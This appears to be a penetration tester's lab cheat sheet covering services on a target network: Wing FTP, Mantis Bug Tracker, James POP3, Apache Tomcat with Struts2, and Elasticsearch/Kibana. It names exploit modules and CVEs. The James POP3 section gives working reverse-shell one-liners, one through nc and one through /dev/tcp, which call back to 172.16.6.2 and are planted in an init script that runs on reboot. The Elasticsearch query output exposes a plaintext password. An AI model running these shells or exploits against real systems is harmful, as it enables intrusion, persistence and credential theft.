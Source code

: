 ```
search lua
exploit(windows/ftp/wing_ftp_admin_exec)
```

### Mantis Bug Tracker

* `80/tcp open http mantisbt-2.3.0`
* CVE:2019-15715 2017-7615
* Mantis Bug Tracker 2.3.0 - Remote Code Execution (Unauthenticated)

### James POP3

`110/tcp open POP3`

* James POP3 Server 2.3.2
* https://www.exploit-db.com/exploits/35513

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.2 3333 >/tmp/f
echo "#!/bin/bash" > /etc/init.d/james
echo "bash -i >& /dev/tcp/172.16.6.2/5555 0>&1" >> /etc/init.d/james
cat /etc/init.d/james
sudo /sbin/reboot
```

### Apache Tomcat&#x20;

* **Version**: Apache Tomcat/8.0.47
* **OS**: Microsoft Windows 2008| Vista | 7
* **exploit**: multi/http/struts2\_rest\_xstream
* **Targeturi**: /struts2-rest-showcase/orders/

### Kibana

* 5601 is the elastic search port, 9200 is the api

```
curl -X GET "10.10.15.175:9200/_search?q=password&pretty"                                                                                                                                                                  130 ⨯
{
  "took" : 11,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
```
